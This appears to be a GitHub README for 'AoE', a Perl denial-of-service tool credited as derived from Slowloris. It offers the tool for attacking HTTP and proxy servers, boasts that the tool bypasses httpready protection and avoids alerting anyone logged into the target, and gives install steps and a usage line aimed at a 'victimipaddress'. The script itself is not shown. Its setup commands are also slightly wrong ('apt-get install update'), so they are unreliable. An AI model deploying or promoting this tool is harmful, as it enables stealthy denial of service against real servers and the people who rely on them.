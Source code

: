 # AoE
A Perl DoS Script

Area of Effect [AoE] both helps identify the timeout windows of a HTTP server or Proxy server, can bypass httpready protection and ultimately performs a fairly low bandwidth denial of service.  It has the added benefit of allowing the server to come back at any time (once the program is killed), and not spamming the logs excessively.  It also keeps the load nice and low on the target server, so other vital processes don't die unexpectedly, or cause alarm to anyone who is logged into the server for other reasons.

Credit to the Author : Laera Loris [Original Script Slowloris]

<br><b>Kali Linux/Installation</b></br>
$ apt-get install update<br>
$ apt-get install upgrade<br>
$ apt-get install perl<br>
$ git clone https://github.com/5inco/AoE.git<br>
$ cd AoE<br>
$ ls<br>
$ perl aoe.pl -h<br>

<br><b>USAGE:</b></br>
$ perl aoe.pl -options<br>
$ perl aoe.pl -dns [www.websiteip.com]<br>
<br><b>EXAMPLE:</b></br>
$ perl aoe.pl -dns xxx.xx.xx.xxx <----victimipaddress<br>
Video Tutorial Link: https://youtu.be/f6I-RnnpIt8<br>
